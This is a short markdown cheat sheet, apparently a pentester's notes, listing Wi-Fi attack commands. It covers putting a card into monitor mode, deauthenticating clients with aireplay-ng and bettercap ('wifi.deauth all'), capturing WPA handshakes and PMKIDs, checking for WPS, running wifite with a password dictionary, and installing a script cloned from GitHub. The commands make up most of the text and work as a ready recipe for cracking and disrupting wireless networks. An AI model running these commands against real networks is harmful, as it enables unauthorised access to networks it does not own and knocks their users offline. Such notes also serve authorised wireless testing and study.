 # Wifi Sniffing

Airmon:

	airmon-ng
	airmon-ng start wlan0mon
	airmon-ng stop wlan0mon
	airmon-ng start wlan0mon 9 (channel 9)
	
Disable all network services for monitor mode:

	airmon-ng check kill

Airodump:

	airodump-ng -c 9 --bssid 00:14:6C:7E:40:80 -w psk wlan0mon

Aireplay:

	aireplay-ng -0 1 -a 00:14:6C:7E:40:80 -c 00:0F:B5:FD:FB:C2 wlan0mon

Airdecap-ng:

	airdecap-ng -e 'the ssid' -p passphrase  tkip.cap

The capture file must contain a valid four-way handshake. For this purpose having (packets 2 and 3) or (packets 3 and 4) will work correctly. In fact, you don't truly need all four handshake packets.

As well, only data packets following the handshake will be decrypted. This is because information is required from the handshake in order to decrypt the data packets.

Wash:

Can be used to know if WPS is actived on router

	wash -i wlan0mon

Wifite:

Automated tools to get all the handshakes of network we scan.

Can be use with other softwares to send the handshakes in a special format on a website to crack the WI-FI password using a lot of connected servers.

	sudo wifite --dict '/home/kali/Downloads/custom-smprepchar-app0-100.txt' --clients-only --power 27 --bully --wps --infinite -p 30

Lazy Script:

	cd (back to user folder)
	git clone https://github.com/arismelachroinos/lscript.git
	cd lscript
	chmod +x install.sh
	./install.sh
	

Bettercap:

Get handshakes easily for all networks

	sudo bettercap --iface wlan1mon
	help wifi
	wifi.recon on (wifi sniffing)
	wifi.show
	wifi.deauth all (interface deauthentification)
	set wifi.handshakes '/desiredfolderlocation' (choose directory for hanhshakes)

	wifi.assoc all (PMKID Attack) (use all or MAC address)
	wifi.show
